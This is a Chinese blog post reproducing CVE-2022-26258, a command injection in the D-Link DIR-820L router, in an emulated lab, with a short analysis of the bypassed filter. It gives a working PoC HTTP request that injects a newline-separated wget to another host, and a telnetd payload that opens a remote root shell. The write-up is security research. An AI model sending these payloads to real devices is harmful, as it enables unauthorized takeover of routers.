







# D-Link CVE-2022-26258 命令注入 - 庄周恋蝶蝶恋花 - 博客园

> 原文：[`www.cnblogs.com/zhuangzhouQAQ/p/16219690.html`](https://www.cnblogs.com/zhuangzhouQAQ/p/16219690.html)

*   设备型号：D-Link DIR-820L
*   固件版本：1.05 B03
*   厂商官网：[`www.dlink.com.cn/`](http://www.dlink.com.cn/)
*   固件下载地址：[`www.dlinktw.com.tw/techsupport/download.ashx?file=2663`](http://www.dlinktw.com.tw/techsupport/download.ashx?file=2663)
*   测试环境：Ubuntu 18.04
*   CVE 编号：CVE-2022-26258
*   本次漏洞依旧是根据网上师傅的博客在进行复现

首先 firmAE 启环境

firmae 安装有问题的，可以根据 xyz 师傅的博客

[(13 条消息) FirmAE 安装指北 _xyzmpv 的博客-CSDN 博客](https://blog.csdn.net/weixin_45209963/article/details/124084840?spm=1001.2014.3001.5502)

然后开始模拟环境

```
sudo ./init.sh
```

```
sudo ./run.sh -r DIR820L ./firmwares/DIR820LA1_FW105B03.bin
```



当出现俩 true 的提示后，我们就可以登录所给的 ip 进入页面

根据博客我们进入 get_set.ccp 页面也就是



而漏洞点出现在 device name 这个漏洞点处

```
grep -r "get_set" 
```

我们可以去搜索文件中包含这个敏感字符的文件

 

 可以看到在 ncc 这个文件中存在，然后我们根据路径将程序放入 ida 中

shift+f12 去搜索 DEVICE_NAME 这个参数

可以看到目前这个逻辑



 可以看到程序是直接通过命令 system 去触发命令

然后前面 hasInjectionString 有一个判断，我们去搜索这个判断的逻辑

```
grep -r “hasInjectionString”
```


 我们可以在 lib/libcleopard.so 去查找对应的逻辑



 通过搜索我们可以查看到大致的逻辑是匹配该参数的字符串，可以看到对这 5 个字符进行匹配但是还是又很多绕过技巧



 比如%0a 绕过

```
sudo python3 -m http.server 80 #python3
sudo python2 -m SimpleHTTPServer 80 #python2
```

当我们使用 wget ip 的时候该路由器会访问这个 ip

验证截图如下


 poc

```
POST /get_set.ccp HTTP/1.1 Host: 192.168.0.1 Content-Length: 765 Accept: application/xml, text/xml, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.51 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Origin: http://192.168.0.1 Referer: http://192.168.0.1/lan.asp Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: hasLogin=1
Connection: close
ccp_act=set&old_ip=192.168.0.1&old_mask=255.255.255.0&new_ip=192.168.0.1&new_mask=255.255.255.0&nextPage=lan.asp&lanHostCfg_IPAddress_1.1.1.0=192.168.0.1&lanHostCfg_SubnetMask_1.1.1.0=255.255.255.0&lanHostCfg_DomainName_1.1.1.0=&lanHostCfg_DNSRelay_1.1.1.0=1&lanHostCfg_DHCPServerEnable_1.1.1.0=1&lanHostCfg_MinAddress_1.1.1.0=192.168.0.100&lanHostCfg_MaxAddress_1.1.1.0=192.168.0.200&lanHostCfg_DHCPLeaseTime_1.1.1.0=1440&lanHostCfg_DeviceName_1.1.1.0=%0awget http://192.168.0.2%0a&lanHostCfg_AlwaysBroadcast_1.1.1.0=0&lanHostCfg_NetBIOSAnnouncement_1.1.1.0=0&lanHostCfg_NetBIOSLearn_1.1.1.0=0&lanHostCfg_NetBIOSScope_1.1.1.0=&lanHostCfg_NetBIOSNodeType_1.1.1.0=2&lanHostCfg_PrimaryWINSAddress_1.1.1.0=0.0.0.0&lanHostCfg_SecondaryWINSAddress_1.1.1.0=0.0.0.0&1649259644679=1649259644679
```

附上另一种复现形式

参数改为

```
%0atelnetd -l /bin/sh -p 10000 -b 0.0.0.0%0a
```

可以 telent 远程连接到改端口并且可以执行命令

复现结果如下



 达成了代码执行的后果

## 漏洞分析

该漏洞的原因是因为程序对页面参数的过滤不够完整，导致攻击者可以进行绕过，从而达到命令执行的后果

复现参考文章：[技术干货丨 D-Link CVE-2022-26258 命令注入 (qq.com)](https://mp.weixin.qq.com/s/1iSBU8HJCKc1xoIhrepx0Q)感谢师傅的分享